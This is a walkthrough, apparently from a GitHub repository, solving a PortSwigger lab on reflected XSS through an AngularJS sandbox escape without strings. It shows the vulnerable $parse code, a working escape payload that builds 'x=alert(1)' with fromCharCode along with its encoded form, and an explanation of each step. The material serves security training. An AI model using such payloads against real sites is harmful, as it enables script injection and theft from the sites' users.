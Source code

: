 # XSS LAB 25 - Reflected XSS with AngularJS sandbox escape without strings

## Manual Solution


### 1. Before you start:
- Before starting, make sure to read the following articles:
    - [XSS Without HTML: Client-Side Template Injection with AngularJS](https://portswigger.net/research/xss-without-html-client-side-template-injection-with-angularjs)
    - [Client-Side Template Injection](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection)

### 2. Access the Lab.
- Open the Web Security Academy lab environment in your browser.

### 3. Perform a search.
- Perform a search and inspect DOM. You will find the vulnerable script.
```html
<script>angular.module('labApp', []).controller('vulnCtrl',function($scope, $parse) {
    $scope.query = {};
    var key = 'search';
    $scope.query[key] = 'abc';
    $scope.value = $parse(key)($scope.query);
});</script>
<h1 ng-controller=vulnCtrl>0 search results for {{value}}</h1>
```
- This script creates a query object. The `search` key assigned to the query object, the value `abc` is inserted as a counterpart to the key
- The `query` object becomes:
```js
$scope.query = {
    search: 'abc'
}
```
- The `$parse` function takes the key parses it into an AngularJS expression. 

### 4. New Search and Query Reflection:
- To test the vulnerability, perform a new search using a URL like `search=abc&x=abcd`. The script will execute and display the following output
```html
<script>angular.module('labApp', []).controller('vulnCtrl',function($scope, $parse) {
    $scope.query = {};
    var key = 'search';
    $scope.query[key] = 'abc';
    $scope.value = $parse(key)($scope.query); //$scope.value = 'abc'
    var key = 'x';
    $scope.query[key] = 'abcd';
    $scope.value = $parse(key)($scope.query); //$scope.value = 'abcd'
});</script>
<h1 ng-controller=vulnCtrl>0 search results for {{value}}</h1>
```
- The query object becomes:
```js
$scope.query = {
    search: 'abc',x:'abcd'
}
```
- As you can see, the second query parameter (x=abcd) is reflected on the page. This shows how user input can be parsed and executed demonstrating the vulnerability.

### 5.Exploiting the `$parse` function
- In this lab, we can abuse the `$parse` service . The $parse function takes a string and turns it into a function. Since we can control the key parameter, we can manipulate the query string.
- Perform a search with the url `search=abc&2%2B2=abcd` the `2%2B2` becomes `2+2`. The parse evaluates 2+2 as a mathematical operation. You will see "0 search results for 4" on the page. 
- Therefore we can inject arbitary queries into the key parameter.

### 6. Bypassing the AngularJS sandbox:
- We need to bypass the angular sandbox. As the lab description states the `$eval` function and string expressions cannot be used. However, there are various ways to bypass the AngularJS sandbox.
- Refer to the AngularJS sandbox escapes section in the [PortSwigger XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#angularjs-sandbox-escapes-reflected) for additional payloads and techniques.
- After reviewing the cheat sheet we found a suitable xss payload. 
- Payload:
 ```js
toString().constructor.prototype.charAt=[].join;[1,2]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)
```
- Encoded:
```js
toString().constructor.prototype.charAt%3D[].join;[1,2]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)
```
- Copy the encoded payload, paste it into the second key section of the URL and hit enter.
- The lab is now completed

### 7. Understanding the XSS payload:
- Let's break down the XSS payload.
- `toString().constructor.prototype.charAt = [].join;` modifies the charAt method to use the `[].join method`. The charAt method normally returns a specific character at a given index from a string, while `[].join` combines the elements of an array into a single string. This means that every time `charAt` is called, `[].join` will be executed instead.
- This manipulation affects the `isIdent()` controller.
- You can read more about the `isIdent()` controller here: [XSS Without HTML: Client-Side Template Injection with AngularJS](https://portswigger.net/research/xss-without-html-client-side-template-injection-with-angularjs)
- More information about the `chatAt()` and `join()` methods:
    - [String.prototype.charAt - MDN](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/charAt)
    - [Array.prototype.join - MDN](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/join)
- `toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)` The fromCharCode methot converts ASCII codes into a string.
- 120 → 'x' 61 → '=' 97 → 'a' 108 → 'l' 101 → 'e' 114 → 'r' 116 → 't' 40 → '(' 49 → '1' 41 → ')' `x=alert(1)`
- `[1,2]|orderBy` is used to execute the `x=alert(1)` string.

## Automated Solution

### 1. Download the script
### 2. Run the script with the following command:
```sh
python xss_lab_25.py -u <target_url> -p (if you want to use proxy 127.0.0.1:8080)
```